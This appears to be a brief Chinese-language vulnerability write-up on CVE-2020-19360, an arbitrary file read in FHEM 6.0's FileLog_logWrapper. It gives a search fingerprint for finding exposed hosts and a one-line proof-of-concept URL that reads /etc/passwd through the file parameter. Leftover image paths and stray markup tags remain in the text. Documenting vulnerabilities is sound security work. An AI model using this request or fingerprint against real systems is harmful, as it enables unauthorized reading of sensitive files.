

# Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

<a-checkbox checked>FHEM 6.0

## 网络测绘

<a-checkbox checked>title=="Home, Sweet Home"</a-checkbox></br>

## 漏洞复现

主页面


验证POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

